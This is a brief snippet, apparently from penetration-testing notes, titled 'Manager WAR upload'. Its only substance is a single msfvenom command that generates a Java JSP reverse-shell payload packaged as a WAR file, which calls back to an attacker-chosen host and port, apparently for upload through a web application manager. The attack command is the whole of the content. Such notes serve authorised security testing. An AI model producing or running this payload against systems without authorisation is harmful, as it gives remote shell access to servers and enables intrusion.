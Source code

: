# Manager WAR upload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$IPADDRESS LPORT=$PORT -f war > shell.war
```

